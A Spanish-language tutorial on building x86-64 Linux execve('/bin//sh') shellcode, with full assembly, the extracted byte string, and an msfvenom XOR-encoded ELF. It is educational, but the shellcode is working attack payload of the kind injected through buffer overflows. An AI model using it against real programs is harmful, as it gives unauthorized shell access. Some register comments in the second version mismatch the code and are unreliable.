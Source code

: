 ## Bin/bash shellcode

El shellcode es una cadena de bytes en código máquina directamente ejecutado en la CPU.
Se suele introducir en el stack (parte de la memoria de un programa) mediante alguna falla de buffer overflow.

Para el shellcode, entramos en lo que se llama "Modo kernel" gracias a un tipo de funciones llamado "syscalls" que le dan el control 
del sistema al kernel durante la ejecución para hacer operaciónes mas privilegiadas. Estas funciones syscall como write() son en las que se 
basan las funciones de c como printf() al compilarse.

Hay un archivo en Linux bajo la ruta `/usr/include/x86_64-linux-gnu/asm/unistd_64.h` (en este caso 64 bits) donde están los indices de las funciones.
En este caso usaremos el 59 que es sys_execv. (Ej el 1 es write y el 60 es exit)

-----------------------

La programación en código máquina se basa en pasarle al registro rax el índice de la funcion syscall que queremos (en nuestro caso 59 para execv)
y en los registros rdi, rsi y rdx (por orden), los argumentos de esta función.

Si miramos el [manual de Linux](https://man7.org/linux/man-pages/man2/execve.2.html) vemos que execve nos pide tres argumentos:
`int execve(const char *pathname, char *const argv[], char *const envp[]);`
- **Path del binario a ejecutar** en este caso /bin/sh, que redondearemos a 8 bytes quedando /bin//sh (igualmente funcional), esto ira a RDI.
- **Argumentos**, en este caso no tenemos, sino que hay que poner la direccion del binario. A RSI
- **Variables de entorno**: no tenemos asi que sera "0". A RDX

Tanto lo que va en rdi como en rsi, como son cadenas de texto, hay que acabarlas en nulls (Ceros basicamente)
Es decir `execve(/bin/sh0x0, &/bin/sh, 0x000000000000000}`
Lo que haremos es meter esos argumentos en la memoria (rsp) y luego pasarlo de ahi a los registros.

-------------------------

Para pasar el "/bin//bash", hay que pasarlo a hexadecimal. Eso se puede hacer facilmente con Python:
`"0x" + "/bin//sh"[::-1].encode("utf-8").hex() -> 0x68732f2f6e69622f `

Codigo en assembly:
```asm
global _start 
section .text
_start:
    xor rax, rax        ; primer null , rax=0 ; de RAX sacamos los Ceros
    push rax            ; rsp = 0x000000000000000. 

    mov rbx, 0x68732f2f6e69622f  ; /bin//sh (8 bytes, o sea, alineado)
    push rbx                     ; rsp:  0x68732f2f6e69622f    0x000000000000000. -> Ahora la pila tiene el primer argumento (/bin//sh, 0x0)
    mov rdi, rsp                 ; rdi 0x68732f2f6e69622f /bin//sh -> Esto de la pila lo metemos en rdi como primer argumento

    push rax                ;    otro null; rsp  0x000000000000000  0x68732f2f6e69622f   0x000000000000000
    mov rdx, rsp            ;    rdx = 0x000000000000000 (Tercer argumento)

    push rdi          ;  dirección de /bin/sh en la pila ->  rsp 0x00007fffffffdeb0  0x000000000000000 0x68732f2f6e69622f  0x000000000000000
    mov rsi, rsp      ; rsi -> 0x7fffffffdea0  (0x68732f2f6e69622f en el stack)

    add rax, 59       ;  Llamamos a execve
    syscall           ; lo ejecutamos
```
Para que entendamos como está puesto todo:  
- La pila  
```
| rsp   |    0x7fffffffdea0  | 0x7fffffffdea8     | 0x7fffffffdeb0               |    0x7fffffffdeb8 |
| ---   | ------------------ | ------------------ | ---------------------------- | ----------------- |
| valor | 0x00007fffffffdeb0 |  0x000000000000000 | 0x68732f2f6e69622f (/bin//sh)| 0x000000000000000 | 
```
- Los registros:
```
  ; $rdi   : 0x007fffffffdeb0  →  "/bin//sh",0x0
  ; $rsi   : 0x007fffffffdea0  →  0x007fffffffdeb0  →  "/bin//sh"
  ; $rdx   : 0x007fffffffdea8  →  0x0000000000000000
```

------------------

Compilamos esto a un objeto y lo pasamos a una cadena de bytes.
```bash
└─$ nasm -f elf64 execv.asm -o execv.o
└─$ ld execv.o -o execv
└─$ ./execv
$ whoami
cucuxii
```

```bash
└─$ for i in $(objdump -d execv.o -M intel | grep "^ " | cut -f2); do echo -n "\\\x$i"; done                  
\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05
└─$ echo -ne "\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05" | msfvenom -f elf -e x64/xor -a x64 --platform linux > demo
└─$ ./demo
$ whoami
cucuxii
```
--------------------

## Extra: Otra version que funciona

Esto lo meto para ver que pueden haber muchas versiones de lo mismo...
```asm
global _start 
section .text

_start:
    xor rax, rax 
    push rax                    ; Colocar NULL en la pila
    
    mov rbx, 0x68732f2f6e69622f ; rbx = /bin//sh
    push rbx                    ; Meter "/bin//sh" en la pila
    mov rdi, rsp                ; Colocar "/bin//sh" en rdi
    
    push rax                    ; Colocar NULL en la pila
    mov rsi, rsp                ; Colocar NULL en RSI
    
    push rdi         ; Colocar el puntero a "/bin//sh" en la pila
    mov rdx, rsp     ; Meter el puntero en rdx
    
    add rax, 59; Cargar el número de la llamada al sistema de execve en rax (59)
    syscall; Realizar la llamada al sistema
```

La razón por la que esto funciona es que la llamada al sistema execve toma los siguientes argumentos en los registros:

- rax: El número de la llamada al sistema.
- rdi: El primer argumento (en este caso, la dirección de la cadena /bin//sh).
- rsi: El segundo argumento (en este caso, NULL).
- rdx: El tercer argumento (en este caso, NULL).
